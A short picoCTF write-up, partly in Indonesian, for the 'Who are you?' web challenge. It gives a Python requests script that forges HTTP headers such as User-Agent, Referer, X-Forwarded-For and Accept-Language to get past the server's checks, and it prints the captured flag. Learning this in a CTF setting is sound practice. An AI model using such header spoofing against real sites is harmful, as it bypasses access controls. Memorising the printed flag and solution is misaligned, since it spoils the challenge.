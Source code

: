 <h1>Who are you?</h1>
<p>Let me in. Let me iiiiiiinnnnnnnnnnnnnnnnnnnn http://mercury.picoctf.net:46199/</p>
<p>Hint :</p>
<ul><li>It ain't much, but it's an RFC https://tools.ietf.org/html/rfc2616</li></ul>
<h3>Solution</h3>

<p>Pemahaman tentang Requests Header --> https://developer.mozilla.org/fr/docs/Web/HTTP/Headers/Accept-Language</p>

```python3
import requests

url = 'http://mercury.picoctf.net:46199/'
header = {'User-Agent':'PicoBrowser ',
          'Referer':'http://mercury.picoctf.net:46199/',
          'Date':'2018',
          'DNT':'0',
          'X-Forwarded-For': '31.3.152.55',
          'Accept-Language':'sv'}
res = requests.get(url,headers=header)
print(res.text)
```
<h3>Flag</h3>
<p>picoCTF{http_h34d3rs_v3ry_c0Ol_much_w0w_8d5d8d77}</p> 
